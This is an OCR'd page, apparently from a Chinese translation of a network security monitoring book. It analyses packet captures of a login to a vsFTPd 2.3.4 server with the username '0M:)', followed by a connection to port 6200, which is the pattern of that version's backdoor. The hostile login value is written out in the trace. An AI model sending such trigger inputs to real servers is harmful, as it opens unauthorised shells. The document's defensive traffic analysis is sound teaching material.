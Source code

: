 TCP 74 50376 > 21v [SYN] Seq=0 Win=14600 Len=0 MSS=1460

SACK_PERM=1 TSval=695390 TSecr=0 WS=16

6592 2013-03-09 21:38:38.160702 192.168.3.5 -> 203.0.113.10

TCP 74 21 > 50376 [SYN, ACK] Seq=0 Ack=1 Win=5792 Len=0 MSS=1460

SACK_PERM=1 TSval=276175 TSecr=695390 WS=32

6593 2013-03-09 21:38:38.161131 203.0.113.10 -> 192.168.3.5

TCP 66 50376 > 21 [ACK] Seq=1 Ack=1 Win=14608 Len=0 TSval=695390 TSecr=276175

6594 2013-03-09 21:38:38.162679 192.168.3.5 -> 203.0.113.10

FTP 86 响应：220 (vsFTPd 2.3.4)

6595 2013-03-09 21:38:38.163164 203.0.113.10 -> 192.168.3.5

TCP 66 50376 > 21 [ACK] Seq=1 Ack=21 Win=14608 Len=0 TSval=695391 TSecr=276175

6596 2013-03-09 21:38:38.164876 203.0.113.10 -> 192.168.3.5

FTP 77 请求：USER 0M:)x

6597 2013-03-09 21:38:38.164886 192.168.3.5 -> 203.0.113.10

TCP 66 21 > 50376 [ACK] Seq=21 Ack=12 Win=5792 Len=0 TSval=276175 TSecr=695391

6598 2013-03-09 21:38:38.164888 192.168.3.5 -> 203.0.113.10

FTP 100 响应：331 请提供密码。

6599 2013-03-09 21:38:38.166318 203.0.113.10 -> 192.168.3.5

FTP 76 请求：PASS azzy

*清单 10-5：203.0.113.10 登录到 192.168.3.5 的 FTP 服务器。*

服务器端漏洞 **217**

[www.it-ebooks.info](http://www.it-ebooks.info/)

在清单 10-5 中，我们看到 203.0.113.10 u 连接到 192.168.3.5 w 上的 FTP 服务，端口为 21 TCP v。我们还看到用户 0M:) x 登录并

提供密码 azzy。清单 10-6 展示了成功登录后的结果。

成功登录。

6600 2013-03-09 21:38:38.166971 203.0.113.10u -> 192.168.3.5w

TCP 74 60155 > 6200v [SYN] Seq=0 Win=14600 Len=0 MSS=1460

SACK_PERM=1 TSval=695392 TSecr=0 WS=16

6601 2013-03-09 21:38:38.166978 192.168.3.5 -> 203.0.113.10

TCP 74 6200 > 60155 [SYN, ACK]x Seq=0 Ack=1 Win=5792 Len=0 MSS=1460

SACK_PERM=1 TSval=276175 TSecr=695392 WS=32

6602 2013-03-09 21:38:38.168296 203.0.113.10 -> 192.168.3.5

TCP 66 60155 > 6200 [ACK] Seq=1 Ack=1 Win=14608 Len=0 TSval=695392 TSecr=276175

